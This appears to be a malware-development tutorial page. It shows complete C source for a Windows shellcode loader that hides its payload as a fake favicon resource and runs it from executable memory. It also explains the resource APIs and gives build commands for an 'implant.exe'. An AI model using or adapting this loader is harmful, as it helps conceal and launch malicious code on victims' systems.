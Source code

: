 
Code Snippet
```c
/*
 storing payload in .rsrc section
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;  
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// Launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
#### Retrieving payload from .rsrc algorithm (C-like pseudo-code)

```c
// 1. find the resource in .rsrc section containing payload 
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA)

// 2. load the resource from .rsrc section
resHandle = LoadResource(NULL, res)

// 3. get a pointer to the loaded resource
payload = (char *) LockResource(resHandle);

// 4. get the size of the resource/payload
payload_len = SizeofResource(NULL, res)
```

---

[**_FindResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) determines the location of a resource with the specified type and name in the specified module (executable file or DLL). This function can be found in the _kernel32.dll_ library.

`FindResource()` function has the following prototype:
```c
HRSRC FindResource(
  HMODULE hModule,   // handle to the module containing the resource. If NULL, the function searches the module used to create the current process
  LPCTSTR lpName,    // name of the resource. Also, this parameter can be MAKEINTRESOURCE(ID), where ID is the integer identifier of the resource
  LPCTSTR lpType     // resource type, ex. RT_BITMAP, RT_ICON, RT_RCDATA, etc. Shellcode will be RT_RCDATA
);
```

**Return value**
If the function succeeds, the return value is a handle to the specified resource's information block. Otherwise, the return value is `NULL`.

---

[**_LoadResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) is used to load a resource from the module's resource section. This function can be found in the _kernel32.dll_ library.

`LoadResource()` function has the following prototype:

```c
HGLOBAL LoadResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource if null searches the module used to create the current process
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is a handle to the data associated with the resource. Otherwise, the return value is `NULL`.

---

[**_LockResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) is used to obtain a pointer to the data associated with a resource. This function can be found in the _kernel32.dll_ library.

`LockResource()` function has the following prototype:
```c
LPVOID LockResource(
  HGLOBAL hResData    // handle to the resource to be accessed (from LoadResource() function)
);
```

**Return value**

If the loaded resource is available, the return value is a pointer to the first byte of the resource; otherwise, it is `NULL`.

> `LockResource()` needs to be casted as a `char` because it returning a Long Pointer Void which means "a generic pointer to some memory, but I don’t know (or care) what type of data it points to.”

---

[**_SizeofResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) is used to retrieve the size (in bytes) of a resource. This function can be found in the _kernel32.dll_ library.

`SizeofResource()` function has the following prototype:
```c
DWORD SizeofResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is the number of bytes in the resource. Otherwise, the return value is zero.

#### Compiling

```powershell
rc.exe resources.rc
cvtres.exe /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

In Windows, `rc.exe` and `cvtres.exe` are two command-line tools used in the process of building Windows applications. They are part of the Microsoft Visual Studio toolset.

1. [**_Resource Compiler_**](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-compiler): `rc.exe` is a special resource compiler in Windows. It is used to compile resource script files (with a _.rc_ extension) into binary resource files (with a _.res_ extension). Resource script files contain resources such as icons, bitmaps, dialog boxes, menus, strings, version information, etc., that are used in Windows applications.
    
2. **_Resource Converter_**: `cvtres.exe` is used to convert resource files from an older format (usually _.res_ files) to the newer _.coff_ format (Microsoft's Common Object File). This conversion is necessary for compatibility with modern development tools and linkers. `cvtres.exe` is typically invoked during the build process after resource files are compiled with `rc.exe`.